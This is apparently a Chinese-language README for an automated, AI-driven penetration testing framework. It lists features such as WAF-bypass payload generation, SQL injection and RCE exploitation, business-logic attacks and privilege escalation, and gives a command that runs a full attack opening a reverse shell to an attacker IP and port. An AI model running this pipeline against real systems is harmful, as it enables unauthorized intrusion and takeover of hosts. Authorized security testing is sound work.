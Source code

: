 # AI+机器人联动渗透测试框架

本框架实现了"AI智能决策+机器人自动化执行"的完整渗透测试流程，覆盖从信息收集到权限获取的全场景，支持技术型漏洞和业务逻辑漏洞的自动化探测与利用。

## 核心功能

1. **AI智能决策中枢**：
   - 基于50维漏洞特征识别23类Web漏洞
   - 动态生成WAF绕防策略和模糊测试Payload
   - 匹配漏洞专属探测与利用方案

2. **自动化渗透机器人**：
   - 全流程信息收集（端口扫描、子域枚举、敏感文件探测）
   - 技术型漏洞利用（SQL注入、RCE、文件上传等）
   - 业务逻辑漏洞探测（越权访问、支付篡改、验证码绕过）
   - 自动提权（Linux/Windows多路径提权）

3. **完整流程闭环**：
   - 实时日志记录与证据留存
   - 自动化生成渗透测试报告
   - 支持未知漏洞模糊测试

## 环境准备

### 依赖安装

1. 安装Python库：pip install -r requirements.txt
2. 安装必要工具（需提前配置好环境变量）：
   - Nmap（端口扫描）
   - sqlmap（SQL注入检测）
   - Subfinder（子域枚举）

## 使用步骤

### 1. 训练AI漏洞识别模型（首次使用需执行）
python train_ai_vuln_model.py
执行后将生成：
- `ai_vuln_model.pth`：AI模型文件
- `vuln_feature_dataset.csv`：训练数据集
- `scaler_mean.npy`/`scaler_std.npy`：数据标准化参数

### 2. 运行全流程渗透测试
# 基础扫描（仅检测漏洞）
python ai_bot_pipeline.py -u http://目标URL

# 完整渗透（含反弹Shell）
python ai_bot_pipeline.py -u http://目标URL -ip 攻击机IP -p 攻击机端口
示例：python ai_bot_pipeline.py -u http://test.dvwa.com -ip 192.168.1.100 -p 4444
## 输出文件

1. 日志文件：保存在`./pentest_logs/日期时间`目录下
   - `main_log.txt`：主流程操作日志
   - `http_requests.txt`：HTTP请求与响应记录

2. 报告文件：
   - `info_report.md`：信息收集报告
   - `ai_bot_pentest_report_目标URL.md`：全流程渗透测试报告

## 注意事项

1. 仅用于合法授权的渗透测试，禁止未授权使用
2. 复杂环境下可能需要调整Payload和探测策略
3. 可通过扩展`vuln_feature_dataset.csv`提升AI模型准确率
4. 业务逻辑漏洞探测可能需要根据目标业务定制化调整
